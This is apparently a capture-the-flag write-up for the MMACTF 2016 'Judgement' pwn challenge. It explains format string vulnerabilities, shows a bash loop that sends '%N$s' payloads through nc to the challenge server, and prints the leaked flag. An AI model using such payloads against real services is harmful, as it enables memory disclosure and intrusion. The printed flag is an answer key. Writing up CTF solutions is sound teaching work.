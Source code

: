 Title: MMACTF 2016 - Judgement
Date: 2016-09-05 19:19
Category: CTF
Tags: ctf, mmactf2016, pwn
Slug: mmactf-2016-judgement
Authors: wumb0

Challenge description:
> Pwn Warmup  
> Host : pwn1.chal.ctf.westerns.tokyo  
> Port : 31729

This was a binary pwn challenge, so I loaded it up in radare2 to take a look:
<script type="text/javascript" src="https://asciinema.org/a/6c2vjhs7j9w659yorjo753s3v.js" id="asciicast-6c2vjhs7j9w659yorjo753s3v" async></script>

Looks like a textbook format string vulnerability. `printf` has a positional arguments feature so normally you can specify which argument you want to use if you are the programmer. The following is an example use case of this:

```c
printf("3rd argument: %3$08x, 1st argument: %1$c\n", 'a', "unused", 0x41414141);
```

This will print "3rd argument: 0x41414141, 1st argument: a"

Format string vulnerabilities occur when a user controlled buffer is passed to `printf`. When `printf` is called it reads things off of the stack (function arguments) to print. Because the input buffer is passed straight in it allows reads off of the stack.

Since the address of the flag was loaded on the stack before the main function it was somewhere reachable by `printf`s positional arguments.

I just wrote a loop to brute force the exact offset number and spit out the flag:

```bash
→ for i in {10..50}; do echo "%$i\$s" | nc pwn1.chal.ctf.westerns.tokyo 31729; done | grep CTF
Input flag >> TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Input flag >> TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Input flag >> TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
```

I got it more than once... but I got it.

**TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}**
